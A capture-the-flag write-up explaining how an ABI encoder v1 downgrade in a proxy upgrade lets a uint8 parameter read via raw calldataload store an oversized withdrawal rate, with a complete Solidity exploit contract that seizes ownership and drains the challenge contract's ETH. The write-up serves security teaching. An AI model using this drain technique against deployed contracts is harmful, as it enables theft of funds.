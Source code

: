 # Restricted Proxy: ABI Encoder Version Manipulation

In this CTF challenge, we explore a vulnerability in a proxy upgrade system where changing the ABI encoder version allows bypassing type checking constraints. The challenge demonstrates how Solidity's ABI encoder versioning can lead to unexpected type validation behavior.

## Challenge Overview

The challenge presents us with a smart contract containing 100 ETH where players get one opportunity to proxy upgrade it under strict rules:

- No modification of inheritance structure
- No altering existing functions or their visibility
- No changing storage layout
- Must keep the same Solidity version (0.8.26)

The system implements several standard security measures:
- Owner-based access control for withdrawals
- Rate-limited withdrawals (default 1%)
- Single withdrawal restriction
- Fixed denominator for withdrawal calculations (10000)

The challenge setup provides players with:
- Source code for the CTF contract
- Ability to perform one proxy upgrade
- Rules for valid contract modifications

The goal is to drain all ETH from the contract. This should be difficult under normal circumstances, as:
1. Withdrawal amounts are rate-limited to a maximum of 2.55% due to uint8 type checking
2. Only one withdrawal is allowed per owner
3. Contract modifications are heavily restricted

This difficulty suggests there must be a subtle implementation flaw in the system's logic.

## Initial Code Analysis

Let's examine the core mechanics and data structures in detail.

### Core Data Structures

```solidity
bool public ownerWithdrawn;
uint256 public withdrawRate;
address public owner;
uint256 public constant WITHDRAW_DENOMINATOR = 10000;
```

Key components:
1. ownerWithdrawn - Tracks if current owner has made their withdrawal
2. withdrawRate - Configurable rate for withdrawal calculations
3. owner - Address allowed to make withdrawals
4. WITHDRAW_DENOMINATOR - Fixed denominator for rate calculations (10000)

### Key Mechanisms

#### Withdrawal System
```solidity
function withdrawFunds() external {
    assembly {
        let ownerWithdrawnSlot := sload(ownerWithdrawn.slot)
        let ownerSlot := sload(owner.slot)
        let withdrawRateSlot := sload(withdrawRate.slot)

        if iszero(ownerWithdrawnSlot) {
            revert(0, 0)
        }

        if iszero(eq(ownerSlot, caller())) {
            revert(0, 0)
        }

        sstore(ownerWithdrawn.slot, 0)

        let contractBalance := selfbalance()
        let amount := div(
            mul(contractBalance, withdrawRateSlot),
            WITHDRAW_DENOMINATOR
        )

        let success := call(gas(), caller(), amount, 0, 0, 0, 0)
        if iszero(success) {
            revert(0, 0)
        }
    }
}
```

Key observations:
1. Uses assembly for low-level storage access and calculations
2. Validates owner hasn't withdrawn and is the caller
3. Calculates withdrawal amount based on contract balance and rate
4. Prevents further withdrawals by setting ownerWithdrawn to false

#### Rate Configuration
```solidity
function changeWithdrawRate(uint8) external {
    assembly {
        sstore(withdrawRate.slot, calldataload(4))
    }
}
```

Important aspects:
1. Takes uint8 parameter but uses raw calldata loading
2. Directly stores value without explicit bounds checking
3. Relies on ABI encoder for type validation

## Finding the Vulnerability

Several potential issues stand out in the implementation:

1. Use of assembly bypasses Solidity's type safety
2. Direct calldata loading could allow larger values
3. Type checking depends on ABI encoder version

The most interesting aspect is the reliance on the ABI encoder for uint8 type validation, while the assembly code uses raw calldata loading that could accept any uint256 value.

## The Exploit

Let's break down the attack step by step.

### Exploit Setup

The exploit requires:
1. Adding `pragma abicoder v1;` to the contract
2. Upgrading to the modified contract
3. Calling changeWithdrawRate with value 10000
4. Taking ownership and withdrawing funds

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;
pragma abicoder v1;

contract CTF {
    // Original contract code...
}
```

### Attack Flow

1. Deploy modified contract with ABI encoder v1:
```solidity
CTF ctf = CTF(CHALLENGE.ctf());
```

2. Set withdrawal rate to 100%:
```solidity
(bool success, bytes memory returnData) = address(ctf).call(
    abi.encodeWithSignature("changeWithdrawRate(uint8)", 10000)
);
```

3. Take ownership and withdraw:
```solidity
ctf.becomeOwner(uint160(address(this)));
ctf.withdrawFunds();
```

### Why It Works

The exploit succeeds because:
1. ABI encoder v1 has less strict type checking than v2
2. Assembly code uses raw calldata loading without validation
3. uint8 type constraint only exists at the ABI level
4. Storage slot can hold full uint256 value

## Complete Solution

```solidity
contract Exploit {
    Challenge private immutable CHALLENGE;

    constructor(Challenge challenge) {
        CHALLENGE = challenge;
    }

    receive() external payable {}

    function exploit(address payable player) external {
        uint256 rate = 10000;

        CTF ctf = CTF(CHALLENGE.ctf());
        (bool success, bytes memory returnData) = address(ctf).call(
            abi.encodeWithSignature("changeWithdrawRate(uint8)", rate)
        );
        require(success, string(returnData));
        ctf.becomeOwner(uint160(address(this)));
        ctf.withdrawFunds();
        player.transfer(address(this).balance);
    }
}
```

## Key Takeaways

1. ABI encoder versions can significantly impact type safety
2. Assembly code bypasses Solidity's type system
3. Type constraints should be enforced at runtime when using assembly

This challenge demonstrates how seemingly minor configuration changes like ABI encoder versioning can have significant security implications when combined with low-level assembly operations that bypass type safety mechanisms.